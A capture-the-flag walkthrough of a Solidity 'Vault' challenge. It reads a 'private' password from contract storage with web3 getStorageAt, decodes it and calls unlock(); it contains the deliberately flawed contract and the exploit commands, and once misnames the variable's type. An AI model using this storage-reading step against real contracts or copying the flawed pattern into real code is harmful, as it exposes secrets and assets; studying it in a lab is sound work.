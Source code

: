 On this challege, we have to unlock the vault to win the challenge.
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.11;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

First of all, we can see that we have 2 state variables.One of them is the locked variable which is public. That means that we can very easily see what it is inside the variable by typing "await contract.locked()"" . Also, we have the private variable password. Using the console, we cannot just see what it is inside just easily. Therefore, we have 2 options to try in order to solve the problem.
1. By brute forcing the password, untill we find the right one and then unlock the vault. It's possible to happen, but there is a much easier way to achieve this.
2. Somehow, to dump the password from the storage of the contract.

As we have already mentioned earlier, Ethereum is a public Blockchain. That means that everyone can see what exists inside of it. We know that password variable is uint private. In Ethereum from the Solidity Docs, we know that a private type access mean that a variable can be called only from the same smart-contract, not externally by using an another smart-contact or by calling contract.password() from console. As Ethereum is a public ledger, we can just query the smart-contract from it's storage.
Web3.js can help us achieving this, by typing in console:
```
var pwd // to create a variable 
web3.eth.getStorageAt(contract.address, 1,  function(err, result){pwd = result})
```
This command will return :
0x412076657279207374726f6e67207365637265742070617373776f7264203a29 .
That is the password in hexademical mode. We can very easily covert this hexademical in ascii from our consle by typing:
```
web3.utils.toAscii(pwd)
```
And this will return us:
``A very strong secret password :)``

As we have the hexademical version of the password, we can simply create a transaction in the function  unlock and the hexademical value as an input by typing:
```
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
Now if we check the boolean variable locked by typing `` contract.locked() `` we can see that it is unlocked. We powned it.
To sum up, we should never insert data unecencrypted in Blockchain networks as, especially in public Blockchains, everyone can see what it is inside.



